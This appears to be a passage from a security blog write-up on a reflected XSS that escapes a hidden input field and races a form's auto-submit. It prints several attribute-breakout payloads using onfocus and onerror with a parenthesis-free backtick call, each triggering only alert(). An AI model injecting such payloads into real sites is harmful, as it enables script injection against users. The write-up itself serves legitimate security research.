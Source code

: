 and the alert was executed

![](/assets/images/2023-12-10-reflected-xss-bypassing-hidden-input-tag-and-auto-submit-script/alert.png)

<div id='section-id-3-2'/>
## 3.2. Why does the payload work??

This payload

{% include codeHeader.html %}
```html
"><input id="xss" onfocus="[].map.call`${alert}1`">
```

works because the *#xss* event is processed before the form's auto-submit, which makes sense. What doesn't make sense is that payloads such as

{% include codeHeader.html %}
```html
"></FORM><img src=1 onerror="[].map.call`${alert}1`">
```

don't work, since the tag

{% include codeHeader.html %}
```html
<img src=1 onerror="[].map.call`${alert}1`">
```

should be processed before the auto-submit request. So I must admit that I don't know why that payload doesn't work...

<p style="text-align:center;"><img src="/assets/images/general/no-idea.gif" style="width: 600px;"></p>
